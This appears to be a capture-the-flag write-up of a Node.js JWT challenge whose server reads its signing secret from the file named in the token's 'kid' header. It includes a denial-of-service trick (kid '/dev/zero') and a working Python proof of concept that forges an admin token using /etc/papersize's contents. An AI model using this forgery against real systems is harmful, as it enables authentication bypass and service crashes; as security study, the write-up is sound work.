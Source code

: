 # Code
This was a great opportunity for me to get started into node.js. I have been avoiding it like the plague, but it seems like humanity will go down in flames when npm breaks anyway.

A perfect opportunity to learn some node and repeat some jwt skills (I did some webpush stuff ages ago by hand.)

Lets get started and install what we need.
```bash
apt install node npm
npm install jsonwebtoken express cookie-parser
```

Lets copy down the code and add some logging.
```js
const fs = require('fs');
var jwt = require('jsonwebtoken');
const cookieParser = require('cookie-parser');
const app = require('express')();
app.use(cookieParser());


app.use((req, res, next) => {
        const token = req.cookies.session;
        if (!token) return res.sendStatus(403);

        jwt.verify(token,
                // getSecretKey(header, cb)
                (header, cb) => {
                        console.log(header.kid);
                        console.log(fs.readFileSync(header.kid));
                        cb(null, fs.readFileSync(header.kid));
                } , {algorithm: 'HS256'}, (err, data) => {
                        // is_valid(err, data)
                        console.log(err);
                        if(err) return res.sendStatus(403);
                        req.name = data.name;
                        return next();
                });
});


app.get('/protected', (req, res) => {
        if(req.name !== 'admin') return res.sendStatus(401);
        res.send('You are the admin!');
});

app.listen(8000);

```


Realizing it reads the secret from the file in header.kid. We do some testing.

Crafting in jwt.io
![[/assets/Pasted image 20230127100003.png]]

and doing a test with known file and contents.
![[/assets/Pasted image 20230127100231.png]]







# Bonus: Denial of Service

Sending kid: /dev/zero crashes the server.

```
kastberg@5CD9245KLN:/mnt/c/Users/robin.kastberg/hax/intigriti$ node 2023-01-23.js
/dev/zero
Segmentation fault (core dumped)
```

# Finding file with known contents.

```bash
$ find /etc -type f -size -10c -size +1c
/etc/debian_version
/etc/host.conf
/etc/mysql/conf.d/mysql.cnf
/etc/papersize
/etc/samba/gdbcommands
find: ‘/etc/ssl/private’: Permission denied
$ cat /etc/papersize
a4
$ cat /etc/papersize |xxd
00000000: 6134 0a                                  a4.
$ cat /etc/papersize |base64
YTQK
```
For some reason I didn't get this to work in jwt.io using base64 encoded secret. Not sure why.

Doing it in python however worked fine:
# POC or ....
```python
import json
import base64
import sys
import hmac
import hashlib
import requests

sizes = [b"a4", b"letter"]
for size in sizes:
    size = size + b"\n"
    h = {"alg": "HS256", "kid": "/etc/papersize"}
    d = {"name": "admin"}
    h = base64.urlsafe_b64encode(json.dumps(h).encode()).rstrip(b"=")
    d = base64.urlsafe_b64encode(json.dumps(d).encode()).rstrip(b"=")
    token = h+b"."+d
    s = hmac.new(size, token, hashlib.sha256).digest()
    token += b"." + base64.urlsafe_b64encode(s).rstrip(b"=")
    res = requests.get("http://localhost:8000/protected",
            cookies={"session": token.decode("ascii")})
    if(res.status_code == 200):
        print(token)
        print(res.text)
```
